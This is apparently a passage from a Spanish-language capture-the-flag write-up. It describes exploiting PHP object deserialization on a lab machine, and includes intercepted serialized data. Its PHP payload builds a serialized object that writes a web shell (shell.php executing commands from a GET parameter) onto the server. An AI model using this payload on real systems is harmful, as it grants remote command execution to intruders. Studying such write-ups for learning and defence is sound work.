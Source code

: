 ```javascript
            /**
             * Serializes an object to PHP format (similar to serialize() in PHP)
             * @param {string} message - The string message to serialize
             */
            function phpSerialize(message) {
                return 'O:7:"Message":1:{s:7:"message";s:' + message.length + ':"' + message + '";}';
            }
```

Utilizamos burpsuite para facilitar la intrusión, enviamos el mensaje `test` y comprobamos que envía un objeto serializado en PHP, que seguramente se serializara en el servidor con la clase PHP filtrada.

![alt text](../../../assets/images/matrix/image-11.png)

```bash
O:7:"Message":1:{s:7:"message";s:4:"test";}
```

Podemos crear programación en PHP para serializar el objeto, en cualquier caso tambien se puede hacer de forma manual, payload para crear un shell.php en el servidor:

```php
<?php

class Message {
    public $file = "messages.txt";
    public $message = "";
    public function __unserialize(array $data){
        file_put_contents($data['file'],$data['message']."\n", FILE_APPEND);
    }
}
$msg = new Message();
$msg->file = 'shell.php';
$msg->message = "<?php echo exec(\$_GET[\"cmd\"]); ?>";

echo serialize($msg);

```

